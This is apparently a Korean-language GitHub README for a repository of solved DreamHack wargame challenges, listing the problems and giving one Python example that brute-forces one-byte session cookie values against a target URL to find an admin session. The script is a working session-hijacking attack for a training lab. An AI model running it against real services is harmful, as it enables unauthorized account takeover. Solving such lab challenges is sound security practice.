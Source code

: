 # DreamHack Code :computer:
DreamHack 문제들을 해결한 exploit 코드들이 있습니다.
(Python 위주)


## 문제 목록 :unlock:
- [X] Mango
- [X] Counting_query
- [X] proxy-1
- [X] session
- [X] stream
- [X] web-ssrf
- [X] rev-basic-4 
- [X] rev-basic-6
- [X] rev-basic-5


## 예시 코드 :clipboard:
```python
import requests

target_url = 'localhost_input'  # 타겟 서버 주소를 여기에 입력

def session_fixation_attack():
    for i in range(256):
        session_id = bytes([i]).hex()

        cookies = {'sessionid': session_id}

        response = requests.get(target_url, cookies=cookies)

        if 'Hello' in response.text:
            print(f'Success! Found admin session ID: {session_id}')
            break
        else:
            print(f'Tried session ID: {session_id}, but not admin.')

session_fixation_attack()
```